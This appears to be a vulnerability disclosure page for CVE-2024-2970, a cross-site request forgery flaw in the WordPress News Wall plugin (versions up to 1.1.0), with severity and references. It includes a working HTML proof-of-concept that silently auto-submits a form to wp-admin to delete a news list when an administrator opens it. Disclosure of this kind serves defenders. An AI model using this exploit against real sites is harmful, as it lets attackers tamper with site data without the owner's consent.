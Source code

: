 ```yaml
---
layout: page
title: CVE-2024-2970
subtitle: News Wall <= 1.1.0 - Cross-Site Request Forgery to Plugin Settings Update
---
```

## Description
The News Wall plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.0. This is due to missing or incorrect nonce validation on the nwap_newslist_page() function. This makes it possible for unauthenticated attackers to update the plugin's settings and modify news lists via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
4.3 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Affected Version
    <= 1.1.0

## PoC :

```
<html>
  <!-- Made By Eneriiiiii -->
  <body>
    <form action="http://[assets]/wp-admin/admin.php">
      <input type="hidden" name="page" value="nw&#95;newslist&#95;page" />
      <input type="hidden" name="action" value="del" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="confirm" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/news-wall/news-wall-110-cross-site-request-forgery-to-plugin-settings-update
- https://plugins.trac.wordpress.org/browser/news-wall/trunk/plugin-panel.php
- https://nvd.nist.gov/vuln/detail/CVE-2024-2970

